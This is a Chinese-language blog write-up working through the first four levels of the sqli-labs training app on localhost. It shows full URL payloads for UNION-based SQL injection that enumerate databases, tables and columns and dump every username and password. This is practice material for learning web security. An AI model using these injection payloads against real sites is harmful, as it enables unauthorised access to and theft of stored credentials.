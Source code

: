 ```yaml
---
title: sqlilabs union联合查询注入
author: Troyee
avatar: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20160708223941_YQncj.jpeg
authorLink: 
authorAbout: 
authorDesc: 
categories: 技术
comments: true
date: 2020-03-15 19:21:48
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/timg.jfif
---
```

Less-1
注：-- 在sql中表示注释，但是在url中发送请求时会把最后的空格去掉，所以这里用--+（+号会被转换为空格）来表示注释。
在1后面加上’发现报错，推测这里存在注入点
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200315192921.png)
从错误信息中我们可以知道是单引号的匹配出了问题，也就是说我们添加的单引号成功被数据库解析，那么我们就可以通过闭合这个id这个参数，然后插入自己构造的sql语句实施攻击。
接着用order by 语句判断表中一共有几列数据：
http://localhost/sqli-labs-php7-master/Less-1/?id=1’order by 3--+
当order by 4时报错，说明一共有三列。
接着要确定有哪几列会显示出来：
http://localhost/sqli-labs-php7-master/Less-1/?id=111’ union select 1,2,3 --+
发现页面输出了2和3，说明有两个显示位。
然后就利用sql语句爆破出数据库名，表名，列名，字段信息。

爆库：http://localhost/sqli-labs-php7-master/Less-1/?id=111%27%20%20union%20select%201,group_concat(schema_name),3%20from%20information_schema.schemata%20--+

查询security内的所有表名：http://localhost/sqli-labs-php7-master/Less-1/?id=111%27%20%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=%27security%27--+

爆user表的列：http://localhost/sqli-labs-php7-master/Less-1/?id=111%27%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=%27users%27%20--+

爆所有的用户名和密码：http://localhost/sqli-labs-php7-master/Less-1/?id=111%27%20union select 1,group_concat(username),group_concat(password) from users --+
Less-2根据报错语句可知此处是数字型注入。用和第一关相同的方式成功绕过。
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200315192930.png)
Less-3：由报错信息可得后台查询语句应为select * from * where id = ('$id') LIMIT 0,1
后面查询语句同上
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/QQ截图20200315193300.png)
Less-4:当输入id=1”时报错，根据错误信息可判断查询语句是id=(“$id”)，后面同上。

